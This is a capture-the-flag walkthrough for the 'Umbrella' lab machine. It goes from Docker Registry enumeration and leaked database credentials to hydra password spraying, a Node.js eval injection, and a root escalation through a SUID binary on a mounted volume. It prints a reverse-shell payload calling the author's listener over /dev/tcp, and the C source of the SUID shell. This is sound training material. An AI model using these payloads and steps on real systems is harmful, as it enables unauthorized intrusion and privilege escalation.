

# Umbrella writeup

## by Disturbante

We can start the machine with a classic nmap scan on the host just to discover open ports:
```bash
nmap -p- 10.10.54.207
```
output:
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
5000/tcp open  upnp
8080/tcp open  http-proxy
```
Once we have an idea of which ports are open on the host we can enumerate better those ports:
```bash
nmap -sC -sV -p22,3306,5000,8080 --min-rate=1900 10.10.54.207
```
output:
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f0:14:2f:d6:f6:76:8c:58:9a:8e:84:6a:b1:fb:b9:9f (RSA)
|   256 8a:52:f1:d6:ea:6d:18:b2:6f:26:ca:89:87:c9:49:6d (ECDSA)
|_  256 4b:0d:62:2a:79:5c:a0:7b:c4:f4:6c:76:3c:22:7f:f9 (ED25519)
3306/tcp open  mysql   MySQL 5.7.40
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.40
|   Thread ID: 6
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, DontAllowDatabaseTableColumn, InteractiveClient, SupportsCompression, Speaks41ProtocolNew, SupportsTransactions, Speaks41ProtocolOld, ODBCClient, IgnoreSigpipes, LongPassword, FoundRows, SwitchToSSLAfterHandshake, ConnectWithDatabase, SupportsLoadDataLocal, IgnoreSpaceBeforeParenthesis, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: &Cq\x14\x08\x18\x1C\x11xad\x0Do/Y-i@JW
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.40_Auto_Generated_Server_Certificate
| Not valid before: 2022-12-22T10:04:49
|_Not valid after:  2032-12-19T10:04:49
5000/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn\'t have a title.
8080/tcp open  http    Node.js (Express middleware)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Claire-r

We have some non-default ports open that means we need to take a look at whats running behind.<br>
I started taking a look at port 8080 where nmap says it's running an http server.<br>
By visiting the url we can see this page:
	

	
I tried a bunch of attacks like sqli, cookie hijacking, bruteforcing and weak passwords but without usernames is almost impossible, so i passed over the next port.<br>
Behind the port 5000 it is a `Docker Registry` api endpoint.<br>
I searched online and found [this article](https://sysdig.com/learn-cloud-native/container-security/what-is-a-docker-registry/) that talks about it.<br>
Then i searched something related to pentest of that port and found [this page](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry).<br>
It showcase some commands to enumerate and audit the Docker Registry service, so i tried a bunch of them:
```bash
curl -s http://10.10.54.207:5000/v2/_catalog
```
output:
```bash
{"repositories":["umbrella/timetracking"]}
```
There is an actual docker image hosted on this service that can be pulled with the `docker pull` command.<br>
We can try to pull down the container info with [this tool](https://github.com/Syzik/DockerRegistryGrabber):
```bash
git clone https://github.com/Syzik/DockerRegistryGrabber.git   #dockergrabber installation
cd DockerRegistryGrabber
python -m pip install -r requirements.txt
```
Once we have it installed we can try to run it against the docker registry endpoint:
```bash
python3 drg.py http://10.10.54.207 --dump_all
```
output:
```bash
[+] umbrella/timetracking
[+] BlobSum found 23
[+] Dumping umbrella/timetracking
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : c9124d8ccff258cf42f1598eae732c3f530bf4cdfbd7c4cd7b235dfae2e0a549
    [+] Downloading : 62c454461c50ff8fb0d1c5d5ad8146203bb4505b30b9c27e6f05461b6d07edcb
    [+] Downloading : 82f3f98b46d4129f725cab6326d0521589d5b75ae0a480256495d216b2cd9216
    [+] Downloading : e5e56a29478cdf60132aa574648135a89299151414b465942a569f2109eefa65
    [+] Downloading : 7fbf137cf91ff826f2b2fddf3a30ea2e3d2e62d17525b708fd76db392e58df62
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 15b79dac86ef36668f382565f91d1667f7a6fc876a3b58b508b6778d8ed71c0e
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 23e2f216e8246d20ed3271ad109cec07f2a00b17bef8529708d8ae86100c7e03
    [+] Downloading : f897be510228b2f804fc2cb5d04cddae2e5689cbede553fb2d587c54be0ba762
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3241ece5841b2e29213eb450a1b29385bf9e0063c37978253c98ff517e6e1b3
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 00fde01815c92cc90586fcf531723ab210577a0f1cb1600f08d9f8e12c18f108
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 3f4ca61aafcd4fc07267a105067db35c0f0ac630e1970f3cd0c7bf552780e985
```
We got a lot of archives i unpacked one by one...<br>
And eventually i found the source code `app.js` of an application, maybe the one running on the webserver; in fact from wapplyzer we can see it is a node js app.<br>
by taking a look at the script i found two major vulnerabilites:<br>

## Information Disclosure:
	

	
The app process the database informations trough environment variable, practice that in most of cases is pretty safe; however we can dump the container configuration trough the Docker Registry api, meaning we can find those variable.

## RCE:
	

	
in the line 72 we can see that there is an eval() statement that run with the user input.<br>
That's very dangerous because we can inject all sorts of serverside javascript inside that.<br>

## Exploitation:  
I started taking a look at the the first vulnerability because i wanted to cover all the scenarios starting from the slower one.<br>
We can try to dump those variables with this commands that we can find in the hacktrix guide that we saw above:
```bash
curl -s http://10.10.54.207:5000/v2/<container_image_name>/<sub_container_name>/manifests/latest
#in our case
curl -s http://10.10.54.207:5000/v2/umbrella/timetracking/manifests/latest
```
The output is huge, but reading among it we can find those variables!
	

	
from the nmap scan we had a database port that can be now accessed:
```bash
mysql -h 10.10.54.207 -u root -p[REDACTED] 
```
From here we can try to dump some usernames and passwords:
	

	
We got a lot of usernames and hashes, so i uploaded them on [CrackStation](https://crackstation.net/) and luckily for me i found the passwords for all the users.<br>
Then i created a userlist and a password list to do password spraying against both the website and the ssh service running on port 22:
```bash
cat users.txt
```
output:
```bash
claire-r
chris-r 
jill-v  
barry-b
```
```bash
cat passwods.txt
```
output:
```bash
[REDACTED] #DUH
```
We can start the bruteforce on ssh:
```bash
hydra -L users.txt -P passwords.txt 10.10.54.207 ssh
```
We got a valid result:
	

	
Before logging in ssh we can also try the login in the webapp.<br>
I tried the claire-r creds and luckily they worked, so i started taking a look at the page, even if i already have the source code from the [RCE](#RCE) section above.<br>
	

	
here we can see the injectable field that we saw in the source code.<br>
I tried to send the code injection i found [here](https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet?tab=readme-ov-file#attack-vectors), i started a listener on my local machine:
```bash
pwncat-cs -lp 6666
```
then i send this payload inside that input field:
```js
arguments[1].end(require('child_process').execSync('/bin/bash -c "bash -i >& /dev/tcp/10.8.79.118/6666 0>&1"'))
```
We got a callback and we are root!<br>
But wait it's just the docker container of the webapp as we can see from the pic below:
	

	
The container doesn't seem much interesting for now, so i went back to the ssh user.<br>
By looking a bit inside the filesystem i noticed something strange, in fact inside the `/home/claire-r/timeTracker-src/logs` we can see the file `tt.log` owned by root.<br>
So i went back to the container and from enumerating that i found the same folder...<br>
Maybe that's a coincidance, so i tried to create a file from the container inside the `/logs` folder that it's owned by a regular user with the same id of claier:
	

	

	
That must be a folder mounted to the container, lets create the file:
	

	

	
Not only we can create files from inside the docker to the host machine, the file we create are owned by root!<br>
Now we can try to create a root SUID file and executing it.<br>
On my local machine I wrote this script `test.c`:
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    setresuid(0,0,0);
    system("/bin/bash -p");
    return 0;
}
```
then compiled with:
```bash
gcc test.c -o test.elf -static
```
then i imported it on the dokcer container using pwncat-cs:
	

	
Now that the binary is imported and we gave it root suid and all users execution we can go back to claire-r terminal and launc the elf binary:
	

	
We are root! and we can submit the flag.